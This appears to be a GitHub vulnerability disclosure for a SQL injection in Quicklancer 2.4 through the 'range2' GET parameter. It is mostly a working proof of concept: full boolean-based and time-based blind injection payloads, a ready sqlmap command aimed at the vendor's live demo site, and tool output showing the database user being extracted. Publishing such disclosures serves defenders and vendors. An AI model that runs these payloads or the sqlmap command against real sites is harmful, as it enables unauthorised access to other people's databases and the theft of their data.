


# SQL Injection Vulnerability in Quicklancer 2.4
A SQL injection vulnerability exists in the Quicklancer 2.4, GET parameter 'range2', that has time-based blind SQL injection and a boolean-based blind SQL injection, which can be exploited remotely by unauthenticated attacker to execute arbitrary SQL queries in the database.

## POC

### Payloads:
```sh
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
```

### Sqlmap:
```sh
python sqlmap.py -u "https://quicklancer.bylancer.com/listing?cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1&salary-type=1&sort=id&subcat=" -p range2 --dbms=mysql --current-db --current-user --batch

....
[13:41:41] [INFO] checking if the injection point on GET parameter 'range2' is a false positive
GET parameter 'range2' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
---
[13:41:48] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.12
[13:41:56] [INFO] fetching current user
[13:41:56] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:41:56] [INFO] retrieved: quicklancer_dbuser@localhost
```






## Contact

For any suggestions or thoughts, please get in touch with [me](https://x.com/MohamedNab1l).


## References

- https://bylancer.com/demo/quicklancer/

